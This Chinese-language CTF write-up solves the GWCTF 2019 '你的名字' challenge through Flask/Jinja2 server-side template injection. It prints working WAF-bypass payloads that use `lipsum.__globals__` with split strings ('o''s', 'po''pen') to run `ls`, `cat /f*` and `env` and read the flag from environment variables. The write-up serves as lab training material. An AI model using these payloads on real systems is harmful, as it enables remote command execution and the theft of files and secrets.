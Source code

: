 ## 基本信息
- 题目名称：GWCTF 2019-你的名字
- 题目链接：https://www.nssctf.cn/problem/259
- 考点清单：SSTI、flask
- 工具清单：Yakit
- payloads：lipsum绕过waf

### 解题思路  

题目给出一个输入框，输入的内容会被回显。  

![](images/GWCTF%202019-%E4%BD%A0%E7%9A%84%E5%90%8D%E5%AD%97-regression.png)  

然而，当我们输入 `{{7*'7'}}` 时，页面返回了一个错误：  

![](images/GWCTF%202019-%E4%BD%A0%E7%9A%84%E5%90%8D%E5%AD%97-error.png)  

错误信息提到的是 `test.php`，但这让人有些疑惑，因为网页指纹显示的是 Python 环境：  

![](images/GWCTF%202019-%E4%BD%A0%E7%9A%84%E5%90%8D%E5%AD%97-fingerprint.png)  

为了进一步分析，我使用 Fuzz 测试，发现双大括号 `{{ }}` 被过滤，同时还有一些常见关键字，如 `os`、`request` 等也被拦截。  

![](images/GWCTF%202019-%E4%BD%A0%E7%9A%84%E5%90%8D%E5%AD%97-fuzz.png)  

### 过程和结果记录  

这道题的关键在于绕过 WAF 的限制。经过Fuzz字典爆破分析，发现题目没有过滤`lipsum`。

于是构造了如下 payload 来绕过双大括号过滤：  

```
{%print (lipsum.__globals__['o''s']['po''pen']('ls').read()) %}
```  

成功执行后，我们看到命令 `ls` 被执行，并返回了文件列表：  

![](images/GWCTF%202019-%E4%BD%A0%E7%9A%84%E5%90%8D%E5%AD%97-ls.png)  

接着，我们尝试查看根目录下的 flag 文件，使用如下命令：  

```
{%print (lipsum.__globals__['o''s']['po''pen']('cat /f*').read()) %}
```  

输出结果显示 `hello see environ !`，提示我们查看环境变量：  

```
{%print (lipsum.__globals__['o''s']['po''pen']('env').read()) %}
```  

最终，通过该命令，我们成功列出了环境变量：  

![](images/GWCTF%202019-%E4%BD%A0%E7%9A%84%E5%90%8D%E5%AD%97-flag.png)

### 总结

- 在解决SSTI题目时，利用Fuzz测试是一种高效的方法，能够快速识别被过滤的关键字，帮助确定绕过WAF的策略，从而节省大量时间。
- 务必注意出题者可能设置的迷惑性提示信息，错误的报错信息或异常返回往往是干扰的关键，不能盲目相信表面信息。
- 使用 `lipsum` 模块的 `__globals__` 属性成功绕过了WAF的关键字限制，是一种值得借鉴的技巧。类似的变形和关键字拼接方法常见且实用，值得深入研究和掌握。